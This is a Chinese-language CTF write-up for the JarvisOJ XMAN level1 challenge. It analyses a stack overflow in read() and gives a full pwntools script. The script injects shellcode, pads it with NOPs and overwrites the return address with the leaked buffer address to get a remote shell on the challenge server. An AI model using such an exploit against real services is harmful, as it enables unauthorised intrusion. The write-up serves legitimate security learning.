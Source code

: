 ```yaml
---
title: JarvisOJ——XMANlevel1题解
date: 2018-07-24 16:37:00
tags:
- CTF
categories:
- CTF
---
```


day2：XMANlevel1
题目链接：https://www.jarvisoj.com/challenges

## 一、初入pwn ##

![XMAN LEVEL1](/assets/img/xmanlevel1.jpg)

作为小白,甚至下载完level1.80eacdcd51aca92af7749d96efad7fb5都一脸懵逼。

按照pwn的思路，肯定是要反汇编的，所以level1应该是个可执行文件[即PE,ELF格式的文件]，显然这个后缀不对，linux下后缀应该为.out或者没有后缀。

故第一步把.80eacdcd51aca92af7749d96efad7fb删掉。

用ls命令查看，并没有可执行文件的特征[即没标绿加粗]，使用命令./level1，也依旧不能运行。

![binwalk](/assets/img/binwalk.jpg)

- 用binwalk查看，发现发现是32-bit的ELF格式的可执行文件。说明改后缀是对的。
- 但是按道理64位系统linux也可以执行这样的32位的文件的。

问题出在，linux文件默认权限。linux中文件默认权限最大为666,也就rw-rw-rw-[每个文件有所有者、所在组、其它组的概念,每个---对于一个概念下的权限]。目录默认权限最大为777。
所以文件本身是不可执行的，必须手动赋予执行权限。
[参考linux文件权限](https://blog.csdn.net/chengqiuming/article/details/78601977)

> chmod +x level1

> ./level1

这时候才执行level1了，ls命令查看level1变绿变粗

注：题目中nc pwn2.jarvisoj.com 9877，标识了域名nc pwn2.jarvisoj.com以及level1挂的端口。

## 二、XMAN level1题解 ##

### 解题思路 ###

本题的最终目标是得到一个受攻击服务器的shell[寻找服务器flag文件，找到flag]

尝试运行level1，有输入字符串的要求，很可能存在栈溢出攻击。

用checksec保护机制查看，NX没开，说明栈有可执行权限，并且canary未发现，那么使用简单的shellcode栈溢出攻击就可以了。

![checksec](/assets/img/checksec)

通过IDA反汇编level1，在main函数中观察到vulnerable_function函数的调用，说明脆弱性攻击点很可能在这个函数中，跟进.

![vulnerable_function](/assets/img/vul.jpg)

发现有read函数,会读取字节，暂存在栈中[&buf是栈中的地址],这样我们就找到了栈溢出点。根据参数入栈的顺序[先入栈的，参数位置最右]可以只知道read(0,&buf,0x100)[请求读0x100,如果到EOF就自动停止，只返回读到的部分的字节]，也就是说最多我们允许读取0x100字节，可以比0x100少。

![vulnerable_function](/assets/img/vul_func.jpg)

通过观察&buf的位置，存储在eax寄存器中，具体是ebp+buf=ebp-88h。在调用read之前，还调用了printf函数，这个函数将"What's this:%p?\n"和lea eax,[ebp+buf]以及push eax得到的&buf给打印出来了。所以连shellcode放置的首地址都给了。[只要用pwntools交互的时候，在收到的信息中进行截取就好]

栈中的情况是：

![栈帧图](/assets/img/zhan.jpg)

我们可以放置shellcode的缓冲区可以是0x88+0x4[0x4是旧ebp的位置]<0x100,所以read确实导致了栈溢出的危险。

以上是汇编代码的分析，还可以使用F5，观察C代码

![vulnerable_function函数的C代码](/assets/img/ccode_vul.jpg)

最终的payload构造：

![payload构造](/assets/img/payload.jpg)

### 解题步骤 ###

     1 #!/usr/bin/python
     2 # -*- coding: utf-8 -*-
     3 
     4 
     5 from pwn import *   #导入pwntools模块
     6 context(log_level = ‘debug‘, arch = ‘i386‘, os = ‘linux‘)  #被攻击服务器的环境为32位linux，这里进行一些环境设置为正常运行exp
     7  #比如32的汇编和64的汇编不同，如果不设置context会导致一些问题
     8 shellcode = asm(shellcraft.sh())  //获得产生bin/sh的shellcode代码，原理：调用默认库libc库中的system(“/bin/sh”)函数
     9 #  io = process(‘./level1‘)   #本地测试是调试用
    10 io = remote(‘pwn2.jarvisoj.com‘, 9877)  #进行远程链接
    11 text = io.recvline()[14: -2]  #接受到的一行字符串截取14到-2的部分[第15个字符到倒数第2个字符]
    12 #  print text[14:-2]  
    13 buf_addr = int(text, 16)  #将字符串"0xffeb9d30"转换为16进制数0xffeb9d30
    14 
    15 payload = shellcode + ‘\x90‘ * (0x88 + 0x4 - len(shellcode)) + p32(buf_addr)   #p32(buf_addr)将数值0xffeb9d30转换为字符串
	 [注意不是"0xffeb9d30"，而是0xff 0xeb 0x9d 0x30 ascii码对应的字符]
    16 io.send(payload)   #发送payload
    17 io.interactive()   #进行交互(得到服务器的shell，能对服务进行命令输入，操作)
    18 io.close()   #关闭交互


结果：

![flag](/assets/img/flag_level.jpg)




## 三、read函数补充 ##
ssize_t read(int fd, void *buf, size_t count);
会把参数fd所指的文件传送count个字节到buf指针所指的内存中[读上来的数据保存在缓冲区buf中，同时文件的当前读写位置向后移。如果buf指向栈，就会存在栈溢出的可能]。若参数nbyte为0，则read()不会有作用并返回0。返回值为实际读取到的字节数，如果返回0，表示已到达文件尾或无可读取的数据。错误返回-1,并将根据不同的错误原因适当的设置错误码。返回值类型是ssize_t，表示有符号的size_t。

read函数返回时，返回值说明了buf中前多少个字节是刚读上来的。有些情况下，**实际读到的字节数（返回值）会小于请求读的字节数count，例如：读常规文件时，在读到count个字节之前已到达文件末尾。例如，距文件末尾还有30个字节而请求读100个字节，则read返回30，下次read将返回0**。
